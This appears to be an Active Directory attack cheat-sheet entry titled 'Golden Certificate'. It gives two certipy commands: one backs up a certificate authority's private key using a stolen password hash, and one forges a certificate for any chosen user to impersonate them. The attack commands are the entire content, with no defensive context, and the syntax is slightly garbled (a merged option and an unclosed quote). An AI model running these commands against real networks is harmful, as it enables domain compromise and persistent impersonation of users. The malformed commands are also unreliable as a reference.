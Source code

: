 # Golden Certificate

    certipy ca -backup -cac'CA_NAME' -username USER@DOMAIN -hashes HASH

    certipy forge -ca-pfx CA_PRIVATE_KEY -upn USER@DOMAIN -subject 'CN=USER,CN=Users,DC=CORP,DC=LOCAL
